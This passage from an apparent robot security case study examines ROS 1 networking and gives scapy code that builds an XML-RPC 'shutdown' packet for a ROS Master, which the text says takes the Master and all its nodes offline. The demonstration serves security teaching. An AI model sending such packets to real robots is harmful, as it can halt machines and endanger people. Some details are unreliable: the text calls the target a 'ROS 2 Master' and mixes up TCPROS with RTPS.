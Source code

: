 \newpage

## Robot Operating System (ROS 1)

The Robot Operating System (ROS) is the de *facto* standard for robot application development [@Quigley09]. It's a framework for creating robot behaviors that comprises various stacks and capabilities for message passing, perception, navigation, manipulation or security, among others. It's [estimated](https://www.businesswire.com/news/home/20190516005135/en/Rise-ROS-55-total-commercial-robots-shipped) that by 2024, 55% of the total commercial robots will be shipping at least one ROS package. **ROS is to roboticists what Linux is to computer scientists**.

This case study will analyze the security of ROS and demonstrate a few security flaws that made the community jump into a more robust evolution: ROS 2[^1] (see [case study on ROS 2](../2_ros2/))

[^1]: ROS 2 is the second edition of ROS targeting commercial solutions and including additional capabilities. ROS 2 (Robot Operating System 2) is an open source software development kit for robotics  applications. The purpose of ROS 2 is to offer a standard software platform to developers across industries that will carry them from research and prototyping through to deployment and  production. ROS 2 builds on the success of ROS 1, which is used today in myriad robotics applications  around the world.


### Dissecting ROS network interactions through RTPS

TCPROS is a transport layer for ROS Messages and Services. It uses standard TCP/IP sockets for transporting message data. Inbound connections are received via a TCP Server Socket with a header containing message data type and routing information. This class focuses on capturing the ROS Slave API.

Until it gets merged upstream (see TCPROS PR), you can get the TCPROS dissector as follows:

```bash
pip3 install git+https://github.com/vmayoral/scapy@tcpros
```

An example package is presented below:

![](../../images/2021/ros_shutdown.png)

![A simple empty RTPS package](images/2021/ros_shutdown.pdf)

```python
from scapy.contrib.tcpros import *
bind_layers(TCP, TCPROS)
bind_layers(HTTPRequest, XMLRPC)
bind_layers(HTTPResponse, XMLRPC)

pkt =   b"POST /RPC2 HTTP/1.1\r\nAccept-Encoding: gzip\r\nContent-Length: " \
        b"227\r\nContent-Type: text/xml\r\nHost: 12.0.0.2:11311\r\nUser-Agent:" \
        b"xmlrpclib.py/1.0.1 (by www.pythonware.com)\r\n\r\n<?xml version=" \
        b"'1.0'?>\n<methodCall>\n<methodName>shutdown</methodName>\n<params>" \
        b"\n<param>\n<value><string>/rosparam-92418</string></value>\n" \
        b"</param>\n<param>\n<value><string>BOOM</string></value>" \
        b"\n</param>\n</params>\n</methodCall>\n"

p = TCPROS(pkt)
```

or alternatively, crafting it layer by layer:

```python
p = (
    IP(version=4, ihl=5, tos=0, flags=2, dst="12.0.0.2")
    / TCP(
        sport=20001,
        dport=11311,
        seq=1,
        flags="PA",
        ack=1,
    )
    / TCPROS()
    / HTTP()
    / HTTPRequest(
        Accept_Encoding=b"gzip",
        Content_Length=b"227",
        Content_Type=b"text/xml",
        Host=b"12.0.0.2:11311",
        User_Agent=b"xmlrpclib.py/1.0.1 (by www.pythonware.com)",
        Method=b"POST",
        Path=b"/RPC2",
        Http_Version=b"HTTP/1.1",
    )
    / XMLRPC()
    / XMLRPCCall(
        version=b"<?xml version='1.0'?>\n",
        methodcall_opentag=b"<methodCall>\n",
        methodname_opentag=b"<methodName>",
        methodname=b"shutdown",
        methodname_closetag=b"</methodName>\n",
        params_opentag=b"<params>\n",
        params=b"<param>\n<value><string>/rosparam-92418</string></value>\n</param>\n<param>\n<value><string>BOOM</string></value>\n</param>\n",
        params_closetag=b"</params>\n",
        methodcall_closetag=b"</methodCall>\n",
    )
)
```

This package will invoke the `shutdown` method of ROS 2 Master, shutting it down, together with all its associated Nodes.
